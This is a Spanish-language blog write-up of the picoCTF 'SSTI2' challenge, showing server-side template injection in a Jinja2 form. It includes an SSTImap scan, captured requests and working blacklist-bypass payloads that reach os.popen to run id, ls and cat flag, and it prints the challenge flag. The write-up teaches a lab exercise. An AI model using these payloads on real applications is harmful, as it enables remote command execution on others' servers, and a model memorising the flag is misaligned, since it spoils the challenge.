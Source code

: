 ```yaml
---
title: SSTI2
date: 2025-07-22 23:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, explotación web]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```

>SSTI2
Author: Venax
Description
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website here!
{: .prompt-tip }

El reto se inicia con un formulario web que propone una entrada para hacer un anuncio, introduces un texto y se muestra en otra página en letras grandes.

```html
 Home

I built a cool website that lets you announce whatever you want!*
What do you want to announce: 
```

Si echamos la vista atrás en en reto [pico-ctf-sst1](../pico-ctf-sst1) ya hacíamos esta comprobación de provocar un error al introducir una división por zero y en este reto podemos hacer lo mismo, obteniendo el primer positivo al introducir { {1/0} }, en principio un positivo.

``` html
Internal Server Error
The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.
```

En dicha ocasión me valí de **Sttimap** una herramienta que automatiza el proceso de explotación de este tipo de vulnerabilidades. Esta vez la detección nos dice que no puede levantar una shell, pero parece que sí hay un punto de inyección con motor Jinja2, supuestamente vulnerable. Toca seguir escarbando.

``` shell
(sstimap) pablo☠office sstimap$ ./sstimap.py  -f --os-shell --url="http://shape-facility.picoctf.net:52506"

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║  _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.2.3
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; generic: 3; legacy_engines: 2; engines: 17
[*] Loaded request body types: 4

[*] Starting form detection...
[+] Form found: POST http://shape-facility.picoctf.net:52506/ "content="
[*] Scanning form with url: http://shape-facility.picoctf.net:52506/
[+] SSTImap identified the following injection point:

  Body parameter: content
  Engine: Jinja2
  Injection: *
  Context: text
  OS: undetected
  Technique: render
  Capabilities:

    Shell command execution: no
    Bind and reverse shell: no
    File write: no
    File read: no
    Code evaluation: no

[-] No system command execution capabilities have been detected on the target.
```

Al capturar con Zap proxy el request, me doy cuenta de el el request se codifica antes de ser enviado. 

``` html
POST http://shape-facility.picoctf.net:52506/ HTTP/1.1
Host: shape-facility.picoctf.net:52506
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://shape-facility.picoctf.net:52506
Connection: keep-alive
Referer: http://shape-facility.picoctf.net:52506/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

content=%7B%7B3*3%7D%7D
```

%7B%7B3*3%7D%7D = { {3*3} } 

Ahora busqué un payload que funcionase con esta vulnerabilidad y encontré lo que me pareción muy razonable. Pues supuestamente estaríamos haciendo que este motor ejecute instrucciones de Python, por lo que podemos intentar algo así:

[https://github.com/Jieyab89/Jinja2-python-or-flask-SSTI-vulnerability-payload-](https://github.com/Jieyab89/Jinja2-python-or-flask-SSTI-vulnerability-payload-)

```
{ { request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('whoami')['read']() } }
```

Sin embargo el la web del formulario al enviar este payload nos envía a una web con el siguente mensaje

``` html 
Stop trying to break me >:(
```

Bueno no es la flag pero nos da una pista, si además hacemos caso de las pistas proporcionadas "Why is blacklisting characters a bad idea to sanitize input?", ¿Es posible que haya algún caracter(es) que filtre el formulario?.

Al hacer el request y capturar con Zap nos muestra que hay ciertos caracteres que no se está encodeando.

``` html
POST http://shape-facility.picoctf.net:52506/ HTTP/1.1
Host: shape-facility.picoctf.net:52506
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 192
Origin: http://shape-facility.picoctf.net:52506
Connection: keep-alive
Referer: http://shape-facility.picoctf.net:52506/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

content=%7B%7B+request%5B%27application%27%5D%5B%27__globals__%27%5D%5B%27__builtins__%27%5D%5B%27__import__%27%5D%28%27os%27%29%5B%27popen%27%5D%28%27whoami%27%29%5B%27read%27%5D%28%29+%7D%7D
```

Encontré un payload aún más razonable respecto a lo comenta su autor. evitar que un WAF detecte ciertos caracteres como "_" o el ".", además este payload está adaptado a Jinja2. Por cierto muy interesante el repositorio, está lleno de payloads.
[https://github.com/swisskyrepo/PayloadsAllTheThings/pull/181/commits/7e7f5e762831266b22531c258d628172c7038bb9](https://github.com/swisskyrepo/PayloadsAllTheThings/pull/181/commits/7e7f5e762831266b22531c258d628172c7038bb9)

## ¿Qué es attr en Jinja2?
En Jinja2, attr es un filtro que sirve para acceder a un atributo de un objeto de forma dinámica usando el nombre del atributo como cadena.
Se utiliza cuando se hace uso de Jinja2 en un proyecto de esta forma. Y es la misma forma que vamos a probar para lanzar comandos.

```
{ { obj|attr('nombre_atributo') } }
```

## Generando un payload dirigido
```
{ {request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()} }
```
Resultado somos root
```
uid=0(root) gid=0(root) groups=0(root) 
```
Buscamos la flag primero lanzando un ls
```
{ {request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()} }
```
Encontramos el archivo flag
```
__pycache__ app.py flag requirements.txt 
```
Ya solo queda leer el archivo
```
{ {request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()} }
```
```
picoCTF{sst1_f1lt3r_byp4ss_0ef4bd3d}
```
flag: **picoCTF{sst1_f1lt3r_byp4ss_0ef4bd3d}**

Nota: Si alguno de estos payloads no te funciona prueba a juntar las llaves "{" pues es problemático para Chirpy.